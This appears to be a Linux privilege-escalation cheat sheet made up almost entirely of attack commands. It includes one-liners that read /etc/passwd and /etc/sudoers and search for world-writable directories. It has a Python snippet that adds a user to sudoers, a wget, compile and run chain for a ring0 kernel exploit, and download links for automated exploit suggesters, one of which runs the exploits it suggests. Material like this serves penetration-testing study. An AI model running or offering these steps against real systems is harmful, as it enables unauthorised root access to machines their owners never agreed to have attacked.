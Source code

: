 Find other uses in the system

> $id; who; w; last; cat /etc/passwd &#124; cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l

World readable/writable files:

> $ echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;

Find world-readable files:

> $ find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print

Find nobody owned files

> $ find /dir -xdev \( -nouser -o -nogroup \) -print

Add user to sudoers in python.

> #!/usr/bin/env python
> import os
> import sys
> try:
>         os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
> except:
>         sys.exit()
> 
Ring0 kernel exploit for 2.3/2.4

wget http://downloads.securityfocus.com/vulnerabilities/exploits/36038-6.c; gcc 36038-6.c -m32 -o ring0; chmod +x ring0; ./ring0

Inspect web traffic

> $ tcpdump tcp port 80 -w output.pcap -i eth0

## Scripts to run

The following script runs exploit suggester and automatically downloads and executes suggested exploits:

> https://raw.githubusercontent.com/codingo/OSCP-1/master/xploitdeli.py

> wget http://www.securitysift.com/download/linuxprivchecker.py

> wget https://github.com/pentestmonkey/unix-privesc-check

Other scripts:

> wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

> wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

> wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh

> wget https://raw.githubusercontent.com/PenturaLabs/Linux_Exploit_Suggester/master/Linux_Exploit_Suggester.pl
